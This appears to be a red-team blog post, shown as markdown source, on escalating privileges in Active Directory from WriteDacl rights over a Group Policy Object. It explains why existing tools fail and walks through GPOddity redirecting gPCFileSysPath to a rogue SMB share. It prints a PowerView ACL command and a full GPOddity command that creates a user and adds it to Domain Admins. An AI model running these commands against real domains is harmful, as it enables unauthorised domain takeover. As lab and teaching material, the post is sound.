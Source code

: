 ```yaml
---
title: "Abusing GPO with WriteDacl AD DACL"
excerpt: "Abusing GPO using the WriteDacl permission in active directory environments."
categories:
    - Red-Team
tags:
    - Red-Team
toc: true
show_date: true
classes: wide
---
```


# Introduction

Recently, I set up a lab that simulates a scenario where a user has the WriteDacl permission over a GPO, making the GPO vulnerable to exploitation. During the simulation, I discovered that existing tools, such as [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) and [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse), do not actually work to set up immediate or scheduled tasks after granting the user GenericAll or GenericWrite permissions over the GPO. Therefore, I did some research to see if there was any solution and found the [GPOddity](https://github.com/synacktiv/GPOddity/) automation tool, developed by Synacktiv researchers, which works very well to escalate user privileges to Domain Admins.

In this blog, I am going to explain the limitations of existing tools and another attack vector used in GPOddity, with some demonstrations in my lab.

# Lab Setup

In the lab, a user `labuser01` has been assigned the **WriteDacl** permission over a GPO `Vuln Policy`, which is linked to the domain. 

![](/assets/images/2025-09-20/1-lab-setup.png)

To exploit the DACL, the delegated user can grant themselves full control (**GenericAll**) of the GPO and then create an immediate or scheduled task applied to computer or user objects to execute commands for privilege escalation as an example.

![](/assets/images/2025-09-20/2-lab-setup2.png)

Use the function `Add-DomainObjectAcl` in the PowerView tool to grant the user `GenericAll` permission over a GPO.
```powershell
Add-DomainObjectAcl -TargetIdentity "Vuln Policy" -PrincipalIdentity "home\labuser01" -Rights All
```

# Knowledge: Group Policy Template in SYSVOL Share

Theoretically, if a user has been delegated GenericAll over a GPO via the **Group Policy Management** editor, they would obtain full permission of the respective group policy folder in the `SYSVOL` SMB share of the domain controllers. The folder contains all the **Group Policy Template** files, which include all the settings to apply to the linked user or computer objects.

![](/assets/images/2025-09-20/3-GPT-SYSVOL.png)

According to [Microsoft documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-policy/group-policy-processing#group-policy-refresh), by default, clients and servers check for changes to GPOs every 90 minutes using a randomized offset of up to 30 minutes. Domain controllers check for computer policy changes every 5 minutes. When users and computers attempt to check for changes to GPOs, they retrieve the GPT files from the folders in the `SYSVOL` SMB share.

# The Problem of Existing Tools with WriteDacl

Existing tools, such as **SharpGPOAbuse**, create an immediate task by directly modifying the Group Policy Template folder in `SYSVOL` SMB shares on domain controllers. However, these tools do not consider the synchronization issue of LDAP and SMB permissions when granting a user the **GenericAll** permission over GPOs. This means that even though `labuser01` grants themselves the **GenericAll** privilege over the `Vuln Policy` GPO using pentesting tools such as PowerView, they only obtain full control of the GPO configurations and attributes, but not full permissions of the group policy folder in the `SYSVOL` share.

![](/assets/images/2025-09-20/4-SYSVOL-denied.png)

When we try to browse the GPO using Group Policy Management, a message pops up asking for synchronization of the `SYSVOL` folder.

![](/assets/images/2025-09-20/5-GPO-Sync.png)

In reality, or during a real red team exercise, we cannot just wait for a domain admin to log into domain controllers and click on that 'OK' button for permission synchronization. Hence, we need to find another solution to make use of the `GenericAll` privilege over the GPO.

# Solution: Modifying the GPO folder path via gPCFileSysPath attribute

[Synacktiv](https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more#3-existing-gpo-exploitation-tools-and-their-limits) introduced a new attack vector of spoofing the GPO location through the `gPCFileSysPath` attribute. This LDAP attribute points to the folder associated with the GPO in the `SYSVOL` SMB share of the domain controller.

Once the path is modified to our controlled SMB share or a writable share in the Active Directory environment, we can write the scheduled task to perform command execution on behalf of all computers or users.

## GPOddity

[GPOddity](https://github.com/synacktiv/GPOddity/) can automate GPO attacks via the `gPCFileSysPath` attribute.

Assuming the user already has a writable share in the network, hosting an embedded SMB server is not needed. The script will change the `gPCFileSysPath` to the manipulated share, clone the original GPO files, and create a scheduled task XML file with the commands. In this case, the task creates a new domain user and attempts to add the user to the Domain Admins group with the privilege of the computer that is refreshing the group policy.
```powershell
$ python3 gpoddity.py --gpo-id "FA300B64-C70B-46A8-84B5-B44FA07EBE66" --gpo-type "computer" --domain "home.lab" --username "labuser01" --password "..." --command 'net user gpo_admin Password123! /add /domain && net group "Domain Admins" gpo_admin /ADD /DOMAIN' --rogue-smbserver-ip "10.10.20.11" --rogue-smbserver-share "Shared" --smb-mode "none" --verbose
```

![](/assets/images/2025-09-20/6-gPCFIleSysPath.png)

The Python script will generate an output folder `GPT_out`. All you need to do is copy all the sub-folders and files to the rogue SMB share and wait for the group policy to refresh.

![](/assets/images/2025-09-20/7-GPO_out.png)

Finally, the command is executed by a computer object that has the privilege (e.g., Domain Controllers) to create a new domain user and add the user to the Domain Admins group.

![](/assets/images/2025-09-20/8-success.png)

# Conclusion

It took me quite some time to figure out how to run a scheduled task starting from the `WriteDacl` permission and to overcome the LDAP and SMB synchronization issues. Hope you find something useful in this blog!

# Resources

1. [GPOddity](https://github.com/synacktiv/GPOddity/)
2. [GPOddity: exploiting Active Directory GPOs through NTLM relaying, and more!](https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more)
3. [WriteDacl](https://bloodhound.specterops.io/resources/edges/write-dacl)

